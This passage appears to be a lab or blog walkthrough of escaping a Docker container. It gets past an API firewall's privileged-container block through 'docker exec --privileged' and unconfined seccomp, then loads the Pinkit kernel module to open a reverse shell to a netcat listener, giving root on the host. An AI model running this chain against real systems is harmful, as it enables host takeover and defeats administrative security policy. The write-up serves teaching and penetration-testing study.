Verify if u can run a privileged container:
```bash
docker run -dit --privileged --name pwn matmats777/debian-mod
# auth denied by administrative policy
```

> The API Firewall is working!


We will start the container in common mode but with the *seccomp* directive set to *unconfined*:
```bash
docker run -dit --security-opt "seccomp=unconfined" --name pwn matmats777/debian-mod
```


- Let's test if we can use the `docker exec` command with the `--privileged` flag.
- Since in the API call, the `run` and `exec` commands have distinct endpoints to activate the same mode, we'll check if it works. 

> If successful, we can list our capabilities

```bash
docker exec -it --privileged pwn bash
capsh --print
```

![Alt text](/assets/images/posts/container/9.png){: .align-center}


> Not only we can lsit the capabilities, but we have *CAP_SYS_MODULE* which allows us to load modules into our system

[Pinkit Github](https://github.com/PinkP4nther/Pinkit) = insmod reverse shell

- Copy the pinkit.c and the Makefile to the container

compile:
```
make
```

Open a listener on Kali:
```bash
nc -lvnp 4444
```

on the target:
```
insmod pinkit.ko host="REV_TCP_LH=<kali IP>" port="REV_TCP_LP=<port NC>"
```

> We have root access to the HOST machine!


> We were able to start a container without *seccomp protection* and run it in privileged mode
